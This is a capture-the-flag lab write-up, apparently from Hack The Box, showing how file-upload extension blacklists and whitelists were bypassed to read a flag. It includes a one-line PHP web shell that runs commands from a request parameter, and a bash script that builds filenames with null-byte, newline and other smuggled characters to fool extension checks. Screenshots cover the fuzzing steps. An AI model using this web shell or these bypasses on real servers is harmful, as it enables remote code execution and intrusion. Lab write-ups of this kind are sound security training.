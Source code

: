 # Whitelist Filters

The above exercise employs a blacklist and a whitelist test to block unwanted extensions and only allow image extensions.
Try to bypass both to upload a PHP script and execute code to read "/flag.txt"

`Hint`: You may use either of the last two techniques. If one extension is blocked, try another one that can execute PHP code.

---
- Test payload:
  ```php
  <?php echo "Hello HTB"; ?>
  ```
- PHP shell:
  ```php
  <?php system($_REQUEST['cmd']); ?>
  ```
- Fuzzing extension whitelist: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt
(Used to discover possible whitelisted extensions. It could be useful to add common image extensions).
- Fuzzing extension list: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst

We attempted to subbmit a simple php script with a test payload:
![image](https://github.com/user-attachments/assets/4b62872a-8a53-4aac-9036-b926dc29415f)
![image](https://github.com/user-attachments/assets/f7bb5a8e-dba6-40ea-a7fb-c57bbb2b6794)

We notice we have differente message responses depending either the response is from the whitelist or blacklist.

We attempted to subbmit a php script using `Double Extensions`:
![image](https://github.com/user-attachments/assets/8e7ab974-0a12-4f57-a81a-db475e750feb)

We attempted to subbmit a php script using a `Reverse Double Extension`:
![image](https://github.com/user-attachments/assets/5d3f324d-9e0e-4878-bd7a-287f780761c0)

We also attempted:
![image](https://github.com/user-attachments/assets/35526498-6f80-4f59-a5c0-771c6e74ef93)
![image](https://github.com/user-attachments/assets/95bad4f1-b219-43ba-a443-a6adee0fd057)
![image](https://github.com/user-attachments/assets/f69b6ed7-1468-47c2-bb00-77c6168d40d2)


We tried to submit a php script with null bytes:
![image](https://github.com/user-attachments/assets/977014b2-3f26-4001-a57b-dd64e0114667)

We perform a common extension fuzzing with `Burp Suite Intruder` in order to know the extensions whitelisted:
![image](https://github.com/user-attachments/assets/05fb203f-bed3-498d-a3b9-4ae4ef6b6489)
all of this extensios are not allowed.
![image](https://github.com/user-attachments/assets/933acd67-c3b5-4b8d-9f50-77387ddfb498)
We realized that we receive the response `Only images are allowed` when the server response using the whitelist and `Extension not allowed` if the server is using the blacklist.


We performed a extension fuzzing using `Burp Suite Intruder`:
![image](https://github.com/user-attachments/assets/e3d26584-e313-4a44-870c-54af813e562e)

![image](https://github.com/user-attachments/assets/78f9a8d2-ed7e-478d-a687-e36d024344b5)

Also we can create a custom wordlist with the following script:
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':' ';'; do
    for ext in '.php' '.phps' '.php2' '.php3' '.php4' '.php5' '.php6' '.php7' '.php8' '.pht' '.phar' '.phpt' '.pgif' '.phtml' '.phtm'; do
        echo "shell$char$ext.png" >> wordlist.txt
        echo "shell$ext$char.png" >> wordlist.txt
        echo "shell.png$char$ext" >> wordlist.txt
        echo "shell.png$ext$char" >> wordlist.txt
    done
done
```
Then we perform a fuzzing using this list created:
![image](https://github.com/user-attachments/assets/30ece0ba-f8e2-4e18-b28c-143a0f3ed912)

![image](https://github.com/user-attachments/assets/644c8c1c-408e-469c-980c-1ea8f0fdbc5c)

We tried to get the file submitted by using `Intruder`:
![image](https://github.com/user-attachments/assets/4c7cb8da-31a8-4972-9e68-b2d9770b37e3)
![image](https://github.com/user-attachments/assets/ce8a7da6-cd4b-4bfb-b36c-c2194bb5ca4f)

Using repetear we submitted a simple php web shell:
![image](https://github.com/user-attachments/assets/d3a77070-151a-4839-836a-5230b96933d9)
![image](https://github.com/user-attachments/assets/412f206a-e218-47c5-9b56-e536aeb732ee)

We get the flag and solve the lab:
![image](https://github.com/user-attachments/assets/887787b8-5edc-4add-9a55-fcded8f777b3)
















